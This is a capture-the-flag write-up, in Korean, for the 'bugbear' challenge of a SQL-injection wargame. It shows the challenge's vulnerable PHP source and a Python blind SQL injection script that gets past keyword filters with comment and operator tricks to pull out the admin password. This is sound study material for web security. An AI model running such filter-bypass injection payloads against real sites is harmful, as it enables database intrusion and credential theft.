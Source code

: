 ## Bugbear
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
### exploit
Darkknight 문제와 비슷하지만 필터링하는 것이 더 많다.
비슷한 방법으로 필터링을 우회하면 문제를 해결할 수 있다.

```python
import requests

url = 'https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php'
cookie = {"PHPSESSID" : 'ovbfdu14h0vaeamskdlr10nttu'}

for i in range(1, 100):
    param = {'no': f'0/**/||/**/id/**/in/**/("admin")/**/&&/**/length(pw)<{i}#'}
    res = requests.get(url, params=param, cookies=cookie)    
    if 'Hello admin' in res.text:
        length = i - 1
        print(f"pw\'s length is {length}")
        break

length = 8
password = ''
for len in range(1,length+1):
    for pw in range(ord('0'), ord('z')):
        param = {'no' : f'1/**/||/**/id/**/in/**/("admin")/**/&&/**/mid(pw,{str(len)},1)/**/in/**/("{chr(pw)}")#'}
        res = requests.get(url, params = param, cookies = cookie)
        if 'Hello admin' in res.text:
            print(f'{len} : {chr(pw)}')
            password = password + chr(pw)
            break

print(password.lower())
```
<br>
